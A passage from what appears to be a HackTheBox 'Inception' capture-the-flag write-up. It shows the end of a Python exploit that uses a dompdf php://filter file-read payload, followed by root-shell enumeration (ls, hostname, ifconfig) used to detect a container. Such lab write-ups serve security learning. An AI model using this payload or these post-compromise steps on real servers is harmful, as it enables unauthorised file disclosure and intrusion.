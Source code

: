 ```
if __name__ == '__main__':
    url = "http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource="
    main(url)
```

### Verifying that we are in a container
Using the ```ls -la``` command, we are unable to find a .dockerenv file that tells us that we are in a container

```
root@Inception:/# ls -la
total 68
drwxr-xr-x  21 root   root    4096 Nov  1  2017 .
drwxr-xr-x  21 root   root    4096 Nov  1  2017 ..
drwxr-xr-x   2 root   root    4096 Nov  6  2017 bin
drwxr-xr-x   2 root   root    4096 Apr 12  2016 boot
drwxr-xr-x   9 root   root     500 May 27 02:15 dev
drwxr-xr-x  75 root   root    4096 Nov  6  2017 etc
drwxr-xr-x   3 root   root    4096 Nov  6  2017 home
drwxr-xr-x  11 root   root    4096 Oct 27  2017 lib
drwxr-xr-x   2 root   root    4096 Oct 27  2017 lib64
drwxr-xr-x   2 root   root    4096 Oct 27  2017 media
drwxr-xr-x   2 root   root    4096 Oct 27  2017 mnt
drwxr-xr-x   2 root   root    4096 Oct 27  2017 opt
dr-xr-xr-x 199 nobody nogroup    0 May 27 02:15 proc
drwx------   2 root   root    4096 Nov  8  2017 root
drwxr-xr-x  16 root   root     520 May 27 02:19 run
drwxr-xr-x   2 root   root    4096 Nov  6  2017 sbin
drwxr-xr-x   2 root   root    4096 Nov  6  2017 srv
dr-xr-xr-x  13 nobody nogroup    0 May 27 02:25 sys
drwxrwxrwt   7 root   root    4096 May 27 02:17 tmp
drwxr-xr-x  10 root   root    4096 Oct 27  2017 usr
drwxr-xr-x  12 root   root    4096 Nov  6  2017 var
```

Furthurmore, using ```hostname``` only tells us that the container's name is Inception and does not reveal anymore information.

```
root@Inception:/# hostname
Inception
root@Inception:/# 
```

However, using ```ifconfig``` reveals an IP address(192.168.0.10) that is different from the IP address of this machine. This tells us that we are in a container.

```
root@Inception:/# ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3e:28:53:63  
          inet addr:192.168.0.10  Bcast:192.168.0.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe28:5363/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1092 errors:0 dropped:0 overruns:0 frame:0
          TX packets:743 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:94446 (94.4 KB)  TX bytes:102417 (102.4 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:1988 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1988 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
```